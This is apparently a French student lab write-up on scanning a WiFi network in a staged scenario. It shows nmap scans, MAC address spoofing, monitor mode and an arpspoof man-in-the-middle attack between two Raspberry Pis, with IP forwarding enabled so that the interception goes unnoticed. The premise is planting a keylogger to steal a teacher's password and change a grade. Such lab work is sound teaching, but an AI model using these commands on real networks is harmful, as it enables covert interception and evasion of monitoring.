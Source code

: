 # scan du réseau

Sommaire:

1. [Avant propos](#1-avant-propos)
2. [Rappel du sujet](#2-rappel-du-sujet)
3. [Identification du réseau](#3-identification-du-reseau)
	1. [Identification des différents élements en réseau](#31-identification-des-differents-elements-en-reseau)
	2. [Identification des intéractions entre les appareils](#32-identification-des-interactions-entre-les-appareils)

## 1. Avant propos

Maintenant que nous sommes connectés au réseau WiFi, il faut scanner le réseau et identifier les différentes interactions des systèmes présents. Pour cette étape, une machine dotée d’une carte WiFi est nécessaire, de la même manière que pour la phase d’infiltration du réseau.

## 2. Rappel du sujet

***La mission est d'entrer dans la salle des 4AS (option à l'INSA CVL en STI) affaint de pouvoir brancher un Keylogger sur la machine de l'enseignant et pouvoir récupérer sont mot de passe pour pouvoir changer ça note obtenue et avoir la moyenne. Comme vous ête dans l'option 2SU, vous avez une porte qui mène directement dans la salle des 4AS, mais cette enseignant, suite à des problème entre des éleves à mis en place un système de carte surveillé par une caméra pour que seulement les profésseur puissent passer par la porte.***

***Pour que cette attaque soit indétectable, vous devez passer devant la caméra sans être vu, puis trouver un moyen de pirater le système de carte et ainsi ouvrir la porte.***

Nous avons réussi à nous connecter au réseau WiFi. Maintenant, nous devons comprendre comment les différents systèmes communiquent entre eux sans interrompre la connexion aux différents éléments, car cela serait détecté, visible avec un indicateur lumineux.

## 3. Identification du réseau

### 3.1. Identification des différents élements en réseau

Pour débuter, nous devons identifier les différents systèmes disponibles sur le réseau. Pour ce faire, nous utiliserons `nmap` pour scanner toutes les adresses IP et repérer les appareils en réseau

```bash
$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
	inet 192.168.2.4 netmask 255.255.255.248 broadcast 192.168.1.7
	inet6 fe80::75c8:4e9b:cae:dfd9 prefixlen 64 scopeid 0x20<link>
	ether 60:d8:19:27:01:8a txqueuelen 1000 (Ethernet)
	RX packets 15016 bytes 5143219 (4.9 MiB)
	RX errors 0 dropped 3526 overruns 0 frame 0
	TX packets 14165 bytes 4785271 (4.5 MiB)
	TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

$
```

Nous constatons que le masque de sous-réseau que nous avons est `255.255.255.248`, ce qui permet de réduire le nombre de scans à réaliser.

La plage d’adresse IP disponible dans ce réseau est comprise entre `[ 192.168.1.1 ; 192.168.1.6 ]`. Nous pouvons donc effectuer le scan avec `nmap` de ces adresses IP.

```bash
$ nmap -Pn 192.168.1.1-6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-07 10:41 CET

Nmap scan report for 192.168.1.
Host is up (0.023s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT     STATE  SERVICE
20/tcp   closed ftp-data
21/tcp   closed ftp
23/tcp   closed telnet
80/tcp   open   http
1723/tcp open   pptp
2869/tcp open   icslap
MAC Address: 00:18:F8:40:CF:D8 (Cisco-Linksys)

Nmap scan report for raspberrypi. ************************ (192.168.1.2)
Host is up (0.022s latency)
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8081/tcp open  blackice-icecap
MAC Address: B8:27:EB:F2:C3:79 (Raspberry Pi Foundation)

Nmap scan report for raspberrypi. ************************ (192.168.1.5)
Host is up (0.022s latency)
Not shown: 1000 closed tcp ports (reset)
MAC Address: B8:27:EB:B9:42:13 (Raspberry Pi Foundation)

$
```

Nous avons donc identifié trois appareils sur le réseau :
 - 192.168.1.1 : routeur Wifi
 - 192.168.1.2 : Raspberry PI
 - 192.168.1.5 : Raspberry PI

L’une des deux Raspberry Pi a un port ouvert, le port `8081`. Nous devons maintenant identifier la manière dont les systèmes communiquent entre eux.

### 3.2. Identification des intéractions entre les appareils

Maintenant que nous avons repéré les machines disponibles, nous pouvons identifier comment les machines interagissent entre elles. Pour ce faire, nous utiliserons `Wireshark`.

Lorsque nous utilisons directement `wireshark` pour écouter de manière passive ce qui se passe dans le réseau, nous obtenons principalement des trames `ARP`, et des trames du routeur. Ce qui nous intéresse, c’est de pouvoir visualiser la communication entre les deux Raspberry Pi. Pour cela, nous allons modifier notre approche de l’écoute du réseau,
passant d’une écoute passive à une écoute semi-active.

Pour ce faire, nous devons mettre notre carte réseau WiFi en mode moniteur. Nous pouvons également en profiter pour changer l’adresse MAC de notre carte réseau :

```bash
$ ifconfig wlan0 down
$ macchanger -r wlan0
Current MAC:   60:d8:19:27:01:8a (Hon Hai Precission Ind. Co., Ltd.)
Permanent MAC: 60:d8:19:27:01:8a (Hon Hai Precission Ind. Co., Ltd.)
New MAC:       de:28:71:0e:16:29 (unknown)
$ iwconfig wlan0 mode Monitor
$ ifconfig wlan0 up
$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
	inet 192.168.2.6 netmask 255.255.255.248 broadcast 192.168.1.7
	inet6 fe80::75c8:4e9b:cae:dfd9 prefixlen 64 scopeid 0x20<link>
	ether de:28:71:0e:16:29 txqueuelen 1000 (Ethernet)
	RX packets 15016 bytes 5143219 (4.9 MiB)
	RX errors 0 dropped 3526 overruns 0 frame 0
	TX packets 14165 bytes 4785271 (4.5 MiB)
	TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
$
```

De cette manière, nous avons changé notre adresse `MAC` et mis la carte réseau en mode moniteur.

Avant de pouvoir réutiliser `Wireshark`, , nous allons effectuer une attaque `Man In The Middle` entre les deux Raspberry Pi pour intercepter tous les paquets échangés. Pour ce faire, nous aurons besoin de deux terminaux.

```bash
# Premier terminal
$ arpspoof -i wlan0 -t 192.168.1.2 192.168.1.5
```

```bash
# Second terminal
$ arpspoof -i wlan0 -t 192.168.1.5 192.168.1.2
```

Cela consiste à envoyer des requêtes `ARP` aux deux Raspberry Pi, de sorte que lorsqu’elles communiquent entre elles, elles doivent passer par l’adresse `MAC` de notre machine. Cela nous permet de récupérer tous les paquets échangés entre les deux machines. Cependant, si nous exécutons uniquement cette étape, la Raspberry Pi avec les voyants lumineux
détectera un problème dans le réseau.

![Wifi break](./imgs/01_network_break.png "Wifi break")

Cela est dû au fait que notre machine récupère les paquets, mais ne les redirige pas. Pour résoudre ce problème, il faut activer l'`IP forwarding` avec la commande suivante:

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$
``` 

Ainsi, nous pouvons désormais écouter les communications entre les deux machines sans avoir de coupure réseau entre les Raspberry Pi.

Nous pouvons maintenant utiliser  `Wireshark`

![wireshark](./imgs/02_capture_wireshark.png "wireshak")

Dans cette capture réseau, nous pouvons identifier que la Raspberry Pi `192.168.1.5` effectue des requêtes `TCP` sur le port `8081` en direction de la Raspberry Pi `192.168.1.2`. Nous pouvons donc suivre une requête en effectuant un `click droit` sur celle-ci, puis en sélectionnant `suivre`, et enfin `Flux TCP`. De cette manière, nous obtenons le contenu de la communication qui s’est effectuée.

![tcp](./imgs/03_tcp_capture.png "tcp")

Nous pouvons déduire que `192.168.1.5` effectue une requête `HTTP` vers `192.168.1.2`  via un script Python. La réponse de `192.168.1.2` contient `Content-type: image/jpeg` dans les métadonnées `HTTP`, ce qui nous permet de conclure que c’est ainsi que `192.168.1.5` récupère l’image de la caméra et effectue la détection de présence.

Afin de passer devant la caméra sans être détecté, il est nécessaire de modifier le trafic de manière à ce que l’image soit constante, empêchant ainsi la détection de présence basée sur le flux de la caméra
